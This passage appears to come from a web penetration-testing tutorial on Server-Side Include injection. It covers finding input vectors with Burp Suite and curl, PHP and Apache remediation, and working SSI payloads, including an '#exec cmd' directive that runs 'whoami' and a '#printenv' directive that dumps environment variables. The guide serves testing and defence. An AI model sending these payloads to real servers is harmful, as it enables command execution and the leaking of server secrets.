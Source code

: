 - **Encoded Payloads**:
  - `<!--%23exec%20cmd=%22whoami%22-->` (URL-encoded)
  - `<!--#exec cmd=\"whoami\" -->` (Quoted command)

**Note**: SSI directives depend on server configuration (e.g., Apache with `mod_include` enabled). Test payloads in URL parameters, form fields, or headers where input is reflected.

### 1. Identify Input Vectors

**Objective**: Locate user-controllable inputs that may be processed by SSI directives.

**Steps**:
1. Browse the website:
   - Visit the target (e.g., `http://example.com`).
   - Identify forms, search fields, or URLs that may process SSI (e.g., `.shtml` pages).
2. Capture requests with Burp Suite:
   - Enable Intercept (Proxy > Intercept > On).
   - Submit forms or click links to capture requests in HTTP History.
   - Note parameters (e.g., `input=test`, `query=hello`).
3. Inspect responses:
   - Check for `.shtml` extensions or SSI-like output (e.g., server time).
   - Use Developer Tools (`Ctrl+Shift+I`) to search for SSI directives in HTML.
4. List input vectors:
   - Document query parameters, form fields, headers, and cookies.

**Example Input Vectors**:
- URL: `http://example.com/page.shtml?input=test`
- Form: `<input name="query">`
- Header: `X-Custom: test`

**Remediation**:
- Validate inputs with allowlists:
  ```php
  if (!preg_match('/^[a-zA-Z0-9]+$/', $_GET['input'])) die("Invalid input");
  ```
- Disable SSI processing:
  ```apache
  Options -Includes
  ```

**Tip**: Save the input vector list in a report.

### 2. Test for Basic SSI Injection

**Objective**: Verify if user input can trigger SSI directives.

**Steps**:
1. Identify input fields:
   - Look for parameters or forms reflected in responses.
2. Inject payloads:
   - Use Burp Repeater:
     ```http
     GET /page.shtml?input=<!--#echo var="DATE_LOCAL" --> HTTP/1.1
     Host: example.com
     ```
   - Use cURL:
     ```bash
     curl -i "http://example.com/page.shtml?input=<!--#echo var=\"DATE_LOCAL\" -->"
     ```
3. Check responses:
   - Look for server data (e.g., current date) or SSI output.
4. Test other directives:
   - Try: `<!--#printenv -->` to list environment variables.
